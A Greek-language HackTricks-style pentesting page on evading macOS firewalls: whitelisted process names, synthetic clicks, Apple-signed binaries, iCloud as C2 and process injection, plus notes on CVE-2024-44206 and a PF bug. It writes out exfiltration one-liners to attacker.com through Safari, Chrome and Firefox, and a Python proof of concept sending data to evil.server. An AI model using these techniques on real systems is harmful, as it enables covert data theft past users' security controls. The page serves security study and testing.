 # macOS Bypassing Firewalls

{{#include ../../banners/hacktricks-training.md}}

## Βρέθηκαν τεχνικές

Οι παρακάτω τεχνικές βρέθηκαν να λειτουργούν σε ορισμένες εφαρμογές firewall macOS.

### Κατάχρηση ονομάτων λευκής λίστας

- Για παράδειγμα, καλώντας το κακόβουλο λογισμικό με ονόματα γνωστών διαδικασιών macOS όπως **`launchd`**

### Συνθετικό Κλικ

- Αν το firewall ζητήσει άδεια από τον χρήστη, κάντε το κακόβουλο λογισμικό να **κλικάρει στο επιτρέπω**

### **Χρήση υπογεγραμμένων δυαδικών αρχείων της Apple**

- Όπως **`curl`**, αλλά και άλλα όπως **`whois`**

### Γνωστά domains της Apple

Το firewall μπορεί να επιτρέπει συνδέσεις σε γνωστά domains της Apple όπως **`apple.com`** ή **`icloud.com`**. Και το iCloud θα μπορούσε να χρησιμοποιηθεί ως C2.

### Γενική Παράκαμψη

Ορισμένες ιδέες για να προσπαθήσετε να παρακάμψετε τα firewalls

### Έλεγχος επιτρεπόμενης κίνησης

Γνωρίζοντας την επιτρεπόμενη κίνηση θα σας βοηθήσει να εντοπίσετε πιθανά whitelisted domains ή ποιες εφαρμογές επιτρέπεται να έχουν πρόσβαση σε αυτά.
```bash
lsof -i TCP -sTCP:ESTABLISHED
```
### Κατάχρηση DNS

Οι επιλύσεις DNS γίνονται μέσω της υπογεγραμμένης εφαρμογής **`mdnsreponder`** που πιθανώς θα επιτρέπεται να επικοινωνεί με τους διακομιστές DNS.

<figure><img src="../../images/image (468).png" alt="https://www.youtube.com/watch?v=UlT5KFTMn2k"><figcaption></figcaption></figure>

### Μέσω εφαρμογών προγράμματος περιήγησης

- **oascript**
```applescript
tell application "Safari"
run
tell application "Finder" to set visible of process "Safari" to false
make new document
set the URL of document 1 to "https://attacker.com?data=data%20to%20exfil
end tell
```
- Google Chrome
```bash
"Google Chrome" --crash-dumps-dir=/tmp --headless "https://attacker.com?data=data%20to%20exfil"
```
- Φοίνικας
```bash
firefox-bin --headless "https://attacker.com?data=data%20to%20exfil"
```
- Σαφάρι
```bash
open -j -a Safari "https://attacker.com?data=data%20to%20exfil"
```
### Μέσω εισβολών διαδικασιών

Αν μπορείτε να **εισάγετε κώδικα σε μια διαδικασία** που επιτρέπεται να συνδεθεί σε οποιονδήποτε διακομιστή, θα μπορούσατε να παρακάμψετε τις προστασίες του τείχους προστασίας:


{{#ref}}
macos-proces-abuse/
{{#endref}}

---

## Πρόσφατες ευπάθειες παράκαμψης τείχους προστασίας macOS (2023-2025)

### Παράκαμψη φίλτρου περιεχομένου ιστού (Screen Time) – **CVE-2024-44206**
Τον Ιούλιο του 2024, η Apple διόρθωσε ένα κρίσιμο σφάλμα στο Safari/WebKit που κατέστρεψε το σύστημα “Φίλτρο περιεχομένου ιστού” που χρησιμοποιείται από τους γονικούς ελέγχους του Screen Time.
Μια ειδικά διαμορφωμένη URI (για παράδειγμα, με διπλό URL-encoded “://”) δεν αναγνωρίζεται από το ACL του Screen Time αλλά γίνεται αποδεκτή από το WebKit, οπότε το αίτημα αποστέλλεται χωρίς φιλτράρισμα. Οποιαδήποτε διαδικασία μπορεί να ανοίξει μια URL (συμπεριλαμβανομένου του sandboxed ή unsigned κώδικα) μπορεί επομένως να φτάσει σε τομείς που είναι ρητά αποκλεισμένοι από τον χρήστη ή ένα προφίλ MDM.

Πρακτική δοκιμή (μη διορθωμένο σύστημα):
```bash
open "http://attacker%2Ecom%2F./"   # should be blocked by Screen Time
# if the patch is missing Safari will happily load the page
```
### Bug στην παραγγελία κανόνων του Packet Filter (PF) σε πρώιμο macOS 14 “Sonoma”
Κατά τη διάρκεια του beta κύκλου του macOS 14, η Apple εισήγαγε μια αναστροφή στο wrapper του userspace γύρω από **`pfctl`**. 
Οι κανόνες που προστέθηκαν με τη λέξη-κλειδί `quick` (που χρησιμοποιείται από πολλές kill-switches VPN) αγνοήθηκαν σιωπηλά, προκαλώντας διαρροές κυκλοφορίας ακόμη και όταν μια GUI VPN/firewall ανέφερε *μπλοκαρισμένο*. Το σφάλμα επιβεβαιώθηκε από αρκετούς προμηθευτές VPN και διορθώθηκε στην RC 2 (build 23A344).

Γρήγορος έλεγχος διαρροής:
```bash
pfctl -sr | grep quick       # rules are present…
sudo tcpdump -n -i en0 not port 53   # …but packets still leave the interface
```
### Κατάχρηση υπηρεσιών βοηθού υπογεγραμμένων από την Apple (παλαιά – προ-macOS 11.2)
Πριν από το macOS 11.2, η **`ContentFilterExclusionList`** επέτρεπε ~50 δυαδικά αρχεία της Apple όπως το **`nsurlsessiond`** και το App Store να παρακάμπτουν όλα τα τείχη προστασίας φίλτρου υποδοχών που υλοποιήθηκαν με το πλαίσιο Network Extension (LuLu, Little Snitch, κ.λπ.).
Το κακόβουλο λογισμικό μπορούσε απλά να δημιουργήσει μια εξαιρεθείσα διαδικασία—ή να εισάγει κώδικα σε αυτήν—και να σήρα την δική του κίνηση μέσω της ήδη επιτρεπόμενης υποδοχής. Η Apple αφαίρεσε εντελώς τη λίστα εξαιρέσεων στο macOS 11.2, αλλά η τεχνική είναι ακόμα σχετική σε συστήματα που δεν μπορούν να αναβαθμιστούν.

Παράδειγμα απόδειξης της έννοιας (προ-11.2):
```python
import subprocess, socket
# Launch excluded App Store helper (path collapsed for clarity)
subprocess.Popen(['/System/Applications/App\\ Store.app/Contents/MacOS/App Store'])
# Connect through the inherited socket
s = socket.create_connection(("evil.server", 443))
s.send(b"exfil...")
```
---

## Συμβουλές εργαλείων για σύγχρονο macOS

1. Εξετάστε τους τρέχοντες κανόνες PF που δημιουργούν τα GUI firewalls:
```bash
sudo pfctl -a com.apple/250.ApplicationFirewall -sr
```
2. Καταγράψτε τα δυαδικά αρχεία που ήδη κατέχουν την άδεια *outgoing-network* (χρήσιμο για piggy-backing):
```bash
codesign -d --entitlements :- /path/to/bin 2>/dev/null \
| plutil -extract com.apple.security.network.client xml1 -o - -
```
3. Προγραμματικά καταχωρίστε το δικό σας φίλτρο περιεχομένου Network Extension σε Objective-C/Swift.
Μια ελάχιστη rootless PoC που προωθεί πακέτα σε τοπική υποδοχή είναι διαθέσιμη στον πηγαίο κώδικα του **LuLu** του Patrick Wardle.

## Αναφορές

- [https://www.youtube.com/watch?v=UlT5KFTMn2k](https://www.youtube.com/watch?v=UlT5KFTMn2k)
- <https://nosebeard.co/advisories/nbl-001.html>
- <https://thehackernews.com/2021/01/apple-removes-macos-feature-that.html>

{{#include ../../banners/hacktricks-training.md}}
